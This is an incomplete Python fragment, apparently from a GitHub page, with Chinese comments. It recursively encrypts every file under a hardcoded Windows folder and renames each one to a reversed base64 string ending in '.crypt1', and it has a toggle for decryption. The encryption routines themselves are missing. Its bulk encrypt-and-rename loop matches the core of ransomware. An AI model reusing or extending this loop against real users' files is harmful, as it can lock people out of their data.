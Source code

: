 ```python
def RenameFile(dir,filename):
    filename_bytes = filename.encode('utf-8')
    filename_bytes_base64 = base64.encodestring(filename_bytes)
    
    filename_bytes_base64 = filename_bytes_base64[::-1][1:]
    new_filename = filename_bytes_base64.decode('utf-8') + '.crypt1'

    print(os.path.join(dir, filename))
    print(os.path.join(dir,new_filename))
    os.rename(os.path.join(dir, filename), os.path.join(dir,new_filename))

def ReserveFilename(dir, filename):
    f = filename
    filename = filename[::-1][7:][::-1]
    filename_base64 = filename[::-1] + '\n'
    filename_bytes_base64 = filename_base64.encode('utf-8')

    ori_filename = base64.decodestring(filename_bytes_base64).decode('utf-8')
    print(os.path.join(dir, f))
    print(os.path.join(dir,ori_filename))
    os.rename(os.path.join(dir, f),os.path.join(dir,ori_filename))
    
def Main(rootDir): 
    list_dirs = os.walk(rootDir) 
    for root, dirs, files in list_dirs: 
        # 切换加密和解密过程
        #if False: 
        if True:
            # 遍历文件，加密并且改名
            for f in files: 
                filename = os.path.join(root, f)
                Encrypt(filename)
                RenameFile(root, f)
        else:   
            # 遍历文件，解密并且恢复名字
            for f in files: 
                filename = os.path.join(root, f)
                Descrypt(filename)
                ReserveFilename(root, f)
            

if __name__ == '__main__':
    #CreateRSAKeys()
    d = 'D:\\des'
    Main(d)

```